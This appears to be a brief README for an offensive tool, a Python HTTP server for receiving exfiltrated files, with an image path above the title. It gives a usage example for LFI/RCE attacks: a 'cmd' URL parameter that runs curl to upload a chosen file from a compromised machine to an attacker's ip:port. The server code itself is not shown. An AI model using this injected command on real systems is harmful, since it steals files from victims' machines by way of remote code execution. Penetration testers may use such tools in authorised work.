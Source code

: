 # Python-HTTP-SERVER-exfiltrate-file
script server http python exfiltrate file

Execute Script : python server.py {port}

Exemple for use in LFI/RCE: ?cmd=curl ip:port --upload-file {file} 
